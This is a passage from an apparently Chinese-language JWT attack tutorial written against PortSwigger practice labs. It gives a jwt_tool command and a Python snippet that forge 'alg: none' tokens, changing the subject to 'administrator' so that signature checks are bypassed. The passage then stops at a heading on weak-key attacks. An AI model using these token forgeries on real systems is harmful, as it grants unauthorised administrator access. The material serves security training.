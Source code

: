 ![image-20250512202317381](./img/image-20250512202317381.png)

或者使用`jwt_tool`工具：https://github.com/ticarpi/jwt_tool

```sh
python3 jwt_tool.py eyJraWQiOiIzYmNkZTA0MC04NzA0LTRkZDUtOGZiZi0xZDA4YWFiYTRkNmMiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0NzA1MjUzMCwic3ViIjoid2llbmVyIn0.NE7wTIt_begtJ2C7yIyUi0HhACUQ5G4x3H7QBrEkl9T-ouOCNzVDLSpEUPDYf-SNZIZRFXeTo-M5xtSfJY4efscBaufKo12TfkIqcXARmv2nAyCb5qUwDf5Nf_32WvKkiBgkyJZL_cUtC0IN5SQSN98NoH5xvzU3USHLG8xNg5LwHzmomUsddvj7gCgBYDcVDWljMxCxVVZKkFNWAF6KMUFRgYUTf8eCY3KL53mfT3fFSeUyVmyZa54ET8XkoSNB6LkrPWtVzO-cqug5Zq2LD2TvCh1SaQ_0pdm-aK4ymrN8czbo6sdvwDkhjVfs2p-jVVRAUfPax8y9rxGVgpB2Dg -X a -I -pc sub -pv administrator
```

```python
import jwt

Payload = {
    "iss": "portswigger",
    "exp": 1747056991,
    "sub": "administrator"
}

headers = {
    "kid": "caad9141-602e-49f6-b821-0e6351113cc9",
    "alg": "none"
}
json_web_token = jwt.encode(payload=Payload,key="",algorithm="none",headers=headers)
print(json_web_token)
```

### 弱密钥绕过验证
